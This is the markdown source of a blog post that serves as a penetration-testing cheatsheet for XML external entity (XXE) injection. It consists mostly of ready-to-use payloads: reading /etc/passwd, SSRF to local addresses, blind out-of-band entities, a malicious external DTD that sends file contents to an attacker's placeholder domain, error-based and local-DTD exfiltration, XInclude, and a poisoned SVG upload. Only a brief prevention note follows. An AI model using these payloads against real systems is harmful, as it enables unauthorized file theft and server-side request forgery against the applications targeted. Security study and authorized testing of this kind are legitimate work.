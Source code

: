 ```yaml
---
title: "XXE attack"
subtitle: ""
draft: false
author: "Hato0"
description: "XXE cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>

tags: ["web", "penetest", "xxe"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# XML external entity injection

XXE is a specific attack against XML application. It can allow an attacker to view files, interact directly with the backend, or other application related to the corrupt one. 

This attack is perform as an initial vector for SSRF. To check for the vulnerability you will have to intercept the request and change the post data. Post data are used in 99.99% for XML applications.

## Basics

- External entities to retrieve files

	Simple payload to retrieve a file from the filesystem
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/passwd"> \]>
	{{< /highlight >}}
		

- Perform SSRF attacks

	As the previous one simple payload, you can adapt the IP by using URL to fetch APIs or whatever
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "http://127.0.0.1/"> \]>
	{{< /highlight >}}
	

## Blind XXE

- Out-of-band interaction

	In this attack you will use the same payload as for the SSRF combined attack, but you will use your IP to check for inbound traffic.
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "YOUR_DOMAIN_OR_IP"> \]>
	{{< /highlight >}}
	
- Out-of-band interaction via XML parameter entities

	Same principle and a similar payload but two different test
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE stockCheck \[<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR_DOMAIN_OR_IP"> %xxe; \]>
	{{< /highlight >}}
	

- Exfiltrate data using a malicious external DTD

	First, DTD is a text file that store XML attributes and elements used by an application.
	This exfiltration has two phases:
	
	1. You will have to host the DTD file on your website and it should be accessible for external use. This file should contain the following payload:
		
		{{< highlight xml "lineNos=false" >}}
		<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'YOURDOMAIN/?log=%file;'>"> 
		%eval;  
		%exfil;
		{{< /highlight >}}
	
	
	2. Then exploit as you will do an classical exfiltration but you should specify the DTD file as follow : 

		{{< highlight xml "lineNos=false" >}}
		<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "DTD_URL"> %xxe;]>
		{{< /highlight >}}
	
	
	3. Now you should tcpdump or go to your website logs to view the file you want to retrieve.
	
- Retrieve data via error messages

	This attack has the same action than the external DTD we saw previously. You just need to replace the step 1 payload with the following one:
	
	{{< highlight xml "lineNos=false" >}}
	<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
	<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">  
	%eval;  
	%exfil;
	{{< /highlight >}}
	
	This will throw an error containing the file you specify
	
- Retrieve data by repurposing a local DTD

	For this one you need to find a local DTD on the system. Once you get it you can simply redeclare a function and trigger for example the error based exfiltration. In this example we suppose that the local file is  `DTD_LOCAL_FILE` and the entity inside is called `PWNME`. The following payload is to include on the XML post data :
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE message [
	<!ENTITY % local_dtd SYSTEM "file://DTD_LOCAL_FILE">
	<!ENTITY % PWNME '
	<!ENTITY &#x25; file SYSTEM "file://FILE_PATH_TO_RETRIEVE">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
	'>
	%local_dtd;
	]>
	{{< /highlight >}}


## Others examples

- Exploiting XInclude to retrieve files

	Back to basics, simple efficient payload :
	
	{{< highlight xml "lineNos=false" >}}
	<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file://FILE_PATH_TO_RETRIEVE"/></foo>
	{{< /highlight >}}
	
	
- Exploiting XXE via image file upload

	For this attack you will have to prepare a SVG file containing the following payload and adapt parameters :
	
	{{< highlight xml "lineNos=false" >}} 
	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file://FILE_PATH_TO_RETRIEVE" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
	{{< /highlight >}}

	Then just upload it as an image and you should have the file data in your image display
	
	
## How to prevent them 

XXE exist due to bad handle of user input or used of dangerous function in used librairie.
The best way to prevent them is to include only necessaries functions or remove unnecessaries ones. 

Import ones to disable are `XInclude` and `external entities resolutions`